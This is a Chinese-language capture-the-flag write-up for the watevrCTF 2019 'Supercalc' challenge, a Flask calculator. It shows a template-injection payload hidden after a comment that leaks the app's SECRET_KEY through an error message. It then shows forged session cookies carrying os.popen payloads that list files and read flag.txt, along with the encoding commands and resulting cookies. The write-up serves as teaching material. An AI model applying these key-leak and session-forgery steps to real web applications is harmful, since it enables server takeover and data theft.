


# watevrCTF-2019-Supercalc

首先打开网页


发现是一个计算器，输入1+1会返回结果2

猜测是ssti，但是输入`{{1+1}}`会出现：You cant use ast.Set m8，提示我们语法错误

尝试输入1/0，发现有报错语句


尝试利用报错的回显来进行ssti

尝试输入1/0{{7*7}}，还是提示Check your syntax m8

但是把 1/0 后面的内容注释掉 就可以 报错返回 1/0#49

```
1/0#{{7*7}}
```

首先我们先看一下config

```
1/0#{{config}}
```



得到secret_key

```
cded826a1e89925035cc05f0907855f7
```

很明显要我们伪造session，把session获取到

```
.eJzVVGFvmzAQ_SsWlapWixbSNGuTah9cOBJWAsw2VdplsihxGzYKEbibuqr_fYaElTRU2sdNQpizn-_evbvjSVvGhczyR2305UmLsoXQRloPvUM97bnT2OgiXetoIs-zXNksDyNxE0bf0cF9VkiUi0ikEkVhkqAkLOThaJ4iZMWJQHOtyO7Fz6XIxVzroCROBSp35DJO7zooTl-s8g5SvoqHRKKPqNfV5-m1yDMz_hEXcZZCGX2EFhsT3TyiX-r4XyC6dzz8f7juJ_LMyNLb-A497e_1h2fgXlbrCFXLKs8WD5FUtCuzs9414TwYb2BWmBRis8-AMtttO_GJ5-MxZsBhZoDPbM-lG5ibpS8ooEAugRuey2DGuOe-4HfhFAwCjF_AVZNytBCL06MPYU-cDodHA70_iCJ9cKsP9ZPTweD2pJmID2SKXXAZp0CpCsId2wJmT2HjcRFKIeN78b58LUQiw4N-73BzO6DAZ-qma1q2Ay1ZV8kQ7uI__hrsse87toHL1DjxPNbModskWVMzPO_Chqa3ailEUbyqz6sbpjfFttvKbwvnYzZpU3kLNGHM91ynlpzlD28AVXUC0q7KNk7lQ23WolANJGCpxphwwMZEGZ8D1Wa74ad4tu4bVU0H3HF7Lq7Jy2LxEo3HShuwcOCwt8utd9Bx_0jX66Izgn1-js2aCAdCPNLSzBWwVGu35ZtqwMx3VHU4g6n6UAPieNh8a4jAUtHA5AFxODUmsN0JSylXzTb4RJV4mKrHsO1dwapj6pFqgmj7uW1dcRWWsSuf2EpYAuPAwaSFXI2equFR6C1i4WqVxFFY_ka634rtXq3zVjQD5qkAZf67aq6ru24Y-7r2fqwP-8_7d_LsL_-4X59_A1UJ_fk.aDVVJw.C6ANWyLh6KzdHCkMWP9r5TBgErg
```

解密后得到

```
{"history":[{"code":"1 + 1"},{"code":"1 / 0","error":"Traceback (most recent call last):\\n  File \\"somewhere\\", line something, in something\\n    result = 1/0\\nZeroDivisionError: division by zero"},{"code":"1 / 0","error":"Traceback (most recent call last):\\n  File \\"somewhere\\", line something, in something\\n    result = 1/0#49\\nZeroDivisionError: division by zero"},{"code":"1 / 0","error":"Traceback (most recent call last):\\n  File \\"somewhere\\", line something, in something\\n    result = 1/0#&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;cded826a1e89925035cc05f0907855f7&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;\\nZeroDivisionError: division by zero"}]}
```

得到了session的结构，然后伪造session执行命令。

```
{'history':[{'code':'__import__(\'os\').popen(\'ls\').read()'}]}
```

加密

```
python flask_session_cookie_manager3.py encode -s "cded826a1e89925035cc05f0907855f7" -t "{'history':[{'code':'__import__(\'os\').popen(\'ls\').read()'}]}"

#
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCkifV19.aDVXRw.-XAnIVsyzdbgsC6D-KCATDAC2hw
```

然后替换掉原来的session并刷新页面

发现有flag.txt



再次构造得到flag

```
python flask_session_cookie_manager3.py encode -s "cded826a1e89925035cc05f0907855f7" -t "{'history':[{'code':'__import__(\'os\').popen(\'cat flag.txt\').read()'}]}"

#
eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IGZsYWcudHh0JykucmVhZCgpIn1dfQ.aDVXyA.JFnVj0fXavGWmdHLoUx6VZntrPY
```


